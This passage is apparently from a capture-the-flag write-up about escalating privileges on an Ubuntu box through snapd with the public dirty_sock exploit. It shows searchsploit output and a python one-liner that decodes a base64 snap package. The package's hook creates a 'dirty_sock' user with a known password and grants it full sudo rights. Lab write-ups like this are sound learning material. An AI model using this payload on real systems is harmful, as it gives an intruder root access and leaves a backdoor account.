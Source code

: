 And then looked up matching exploits using `sploitsearch`.

```none
└─$ searchsploit snapd
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege Escalation (1)               | linux/local/46361.py
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege Escalation (2)               | linux/local/46362.py
---------------------------------------------------------------------------------- ---------------------------------
```

I was immediately put off, as the version on the target system was much higher than the version specified in the exploit. Did some more research, and digging to find information. There is a great article by [0xdf about Playing with Dirty Sock](https://0xdf.gitlab.io/2019/02/13/playing-with-dirty-sock.html). And here is the official [dirty_sock: Linux Privilege Escalation (via snapd)](https://github.com/initstring/dirty_sock/).

I went ahead and downloaded the `dirty_sockv2.py` script, and tried to execute it. I kept getting a 401 Unauthorized error. Since this box has been a little "locked down" at some points, I thought that the use of the snap API might be limited. Not going to lie - at this point needed some help, so I looked at a few writeups for some guidance. The one tip I took was to try the steps in the script manually.

Started by creating my snap package based on the payload in the exploit script. This is a nice one-liner that I used.

```none
python -c 'print("""
aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw"""
+ "A" * 4256 + "==")' | base64 -d > newnewnew.snap
```

This code will create a new snap file. The basic premise is that it will create a new user named `dirty_sock` with the password `dirty_sock` which will have elevated privileges. Here is the `strings` of the package.
